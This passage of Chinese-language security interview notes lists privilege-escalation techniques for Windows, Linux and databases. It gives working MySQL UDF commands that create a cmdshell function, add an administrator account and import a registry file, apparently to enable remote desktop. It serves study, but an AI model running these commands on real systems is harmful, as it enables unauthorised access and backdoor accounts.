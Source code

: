 ## 21-win提权

```shell
1-内核提权 systeminfo 寻找对应EXP
```



## 22-linux提权

```shell
1- 脏牛提权
2- sodu提权
3- 内核提权
```

## 补充：说说你了解的脏牛提权

```shell
我当时没上来，有哪位老哥，比较好的答案，记得发给我啊，跪谢
```



## 23-数据库提权

```shell
# MySQL
	1- mof提权
	2- udf提权
	3- VBS启动项提权
# SQLserver
	1-xp_cmdshell 扩展存储函数提权
	2-差异备份提权
# Access

```

## 补充：MySQL UDF提权的常用命令

```shell
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user liuyazhuang lyz123 /add');
select cmdshell('net localgroup administrators liuyazhuang /add');
select cmdshell('net localgroup administrators');
select cmdshell('ipconfig/all');
select cmdshell('net user');
select cmdshell('regedit /s d:\wwwroot\3389.reg');
drop function cmdshell;
select cmdshell('netstat -an');
```

## 补充：MySQL VBS启动项提权
